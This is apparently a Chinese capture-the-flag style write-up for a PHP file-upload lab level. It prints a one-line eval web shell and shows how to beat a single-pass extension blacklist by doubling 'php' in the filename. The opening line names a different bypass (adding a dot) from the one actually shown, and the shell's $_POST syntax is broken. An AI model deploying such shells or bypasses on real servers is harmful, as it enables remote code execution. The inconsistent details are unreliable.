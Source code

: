 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过增加点的方式绕过，注意，此Pass需要修改PHP环境为5.2.17

## 1.打开第十关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

#### 我们发现，上传的时候被去掉php了

## 3.分析代码

##### ![](./img/3.png)

##### 可以看到$file_name = str_ireplace($deny_ext,"", $file_name)，直接删除黑名单中的内容。但是这个代码凶起来连文件名的内容也删，这让我想起之前看的文章说不要试图修改用户的输入，直接禁止就行。

##### 因为str_ireplace函数只使用了一次。直接使用双写绕过就行test.pphphp

## 4.我们可以使用Burpsutie抓包，双写php绕过

![](./img/4.png)

